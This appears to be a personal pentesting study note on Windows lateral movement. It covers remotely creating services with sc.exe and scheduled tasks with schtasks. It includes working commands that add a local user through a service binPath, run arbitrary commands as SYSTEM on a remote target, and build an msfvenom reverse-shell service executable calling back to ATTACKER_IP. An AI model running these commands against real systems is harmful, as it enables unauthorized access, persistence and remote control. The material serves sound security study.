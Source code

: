 ## Remotely Creating Services Using `sc`
- **Ports:** 
	- 135/TCP, 49152-65535/TCP (DCE/RPC)
	- 445/TCP (RPC over SMB Named Pipes)
	- 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with `sc.exe`, a standard tool available in Windows. When using `sc`, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways.
1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
![[Pasted image 20241027203545.png]]
2. If the latter connection fails, `sc` will try to reach SVCCTL through SMB named pipes, either on port 445 ([[Network Services Vulnerabilities#SMB|SMB]])or 139 (SMB over NetBIOS)
![[Pasted image 20241027203807.png]]
--- 

We can create and start a service using the following:
```cmd
sc.exe \\TARGET create ServiceName binPath= "net user UserName Password123 /add" start= auto
sc.exe \\TARGET start ServiceName
```
The `net user` command will be executed when the service is started, creating a new local user on the system. Since the Operating system is in charge of starting the service, we won't get the command output.
We can use the following to stop and delete the service:
```cmd
sc.exe \\TARGET stop ServiceName
sc.exe \\TARGET delete ServiceName
```

---

Note, that service executables work differently from standard .exe files, and they get killed almost immediately after executing by the service manager, so doing using a normal reverse shell and such will not work. Now, we can circumvent this by encapsulating a payload inside a fully functional service executable, preventing it from being killed. [[Metasploit|msfvenom]] supports this format `exe-service`
```shell
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```


## Creating Scheduled Tasks Remotely
Similar to Cronjobs. We can create scheduled tasks and run one remotely with `schtasks`, available in any Windows installation. 
```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "TaskName1" /tr "<command 2 execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /tn "TaskName1"
```
So, we are telling it to set the scheduled type (`/sc`) to ONCE, which means the task will only be ran at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much.
Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.